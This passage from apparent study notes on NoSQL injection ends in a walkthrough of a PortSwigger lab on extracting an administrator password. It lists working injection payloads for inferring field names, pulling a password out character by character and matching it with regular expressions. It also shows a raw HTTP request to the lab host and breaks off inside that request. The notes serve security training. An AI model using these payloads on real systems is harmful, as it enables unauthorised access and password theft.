 It can be difficult to identify field names since NoSQL doesn't require a fixed schema (like SQL), but we can usually infer the existence of a field by the responses:

```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

Comparing against a known field:

```
admin' && this.username!='
```

and an unknown field:

```
admin' && this.foo!='
```

### Extracting Data with Syntax Injection

If the query is using a `$where` clause, we can try to inject into that to retrieve sensitive data:

#### Character-by-Character Extraction

```
admin' && this.password[0] == 'a' || 'a'=='b
```

#### Using JavaScript Functions

Using the JavaScript `match()` function:

```
admin' && this.password.match(/\d/) || 'a'=='b
```

??? example "PortSwigger NoSQL Injection Lab 3: Exploiting NoSQL injection to extract data"
	### Lab 3: Exploiting NoSQL injection to extract data
	[PortSwigger NoSQL Injection Lab #3](https://portswigger.net/web-security/learning-paths/nosql-injection/exploiting-syntax-injection-to-extract-data/nosql-injection/lab-nosql-injection-extract-data)
	
	We need to extract the administrator password and log in to solve the lab
	
	Confirming that the `password` field exists
	
	```
	GET /user/lookup?user=administrator'+%26%26+this.password!%3d' HTTP/1.1
	Host: 0aa7008b033ca58c807c083c00f8009e.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Referer: https://0aa7008b033ca58c807c083c00f8009e.web-security-academy.net/my-account?id=wiener
	Connection: keep-alive
	Cookie: session=QMIuURiqO62GwvlLWRvDsROkHS4k2u5q
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	X-PwnFox-Color: magenta
	Priority: u=4
	